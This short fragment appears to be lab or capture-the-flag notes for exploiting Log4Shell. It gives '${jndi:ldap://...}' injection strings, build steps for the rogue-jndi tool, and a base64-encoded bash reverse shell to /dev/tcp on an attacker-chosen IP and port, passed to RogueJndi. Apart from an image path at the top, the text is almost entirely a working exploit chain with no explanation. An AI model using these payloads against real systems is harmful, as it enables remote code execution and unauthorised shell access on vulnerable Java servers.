 ${jndi:ldap://10.10.16.41/id}


apt-get install maven
apt install openjdk-11-jdk -y

git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package

echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' |
base64

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|
{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"

${jndi:ldap://10.10.16.41:1389/o=tomcat}